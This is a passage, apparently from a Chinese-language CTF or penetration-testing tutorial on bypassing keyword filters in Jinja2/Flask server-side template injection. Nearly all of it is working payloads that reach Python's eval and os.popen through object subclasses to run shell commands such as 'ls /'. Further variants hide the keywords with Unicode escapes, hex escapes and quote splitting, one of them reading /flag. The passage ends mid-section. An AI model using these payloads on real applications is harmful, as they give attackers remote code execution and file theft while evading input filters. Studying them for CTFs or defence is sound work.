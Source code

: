 等同于：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

可以看到，在 payload 中，只要是字符串的，即 payload 中引号内的，都可以用编码绕过。同理还可以进行 rot13、16 进制编码等。

### 利用 Unicode 编码绕过关键字（flask 适用）

unicode 编码绕过是一种网上没提出的方法。

我们可以利用 unicode 编码的方法，绕过关键字过滤，例如：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f']['\u0065\u0076\u0061\u006c']('__import__("os").popen("ls /").read()')}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\u006f\u0073'].popen('\u006c\u0073\u0020\u002f').read()}}
```

等同于：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

### 利用 Hex 编码绕过关键字

和上面那个一样，只不过将 Unicode 编码换成了 Hex 编码，适用于过滤了 “u” 的情况。

我们可以利用 hex 编码的方法，绕过关键字过滤，例如：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('__import__("os").popen("ls /").read()')}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\x6f\x73'].popen('\x6c\x73\x20\x2f').read()}}
```

等同于：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

### 利用引号绕过

我们可以利用引号来绕过对关键字的过滤。例如，过滤了 flag，那么我们可以用 `fl""ag` 或 `fl''ag` 的形式来绕过：

```
[].__class__.__base__.__subclasses__()[40]("/fl""ag").read()
```

再如：
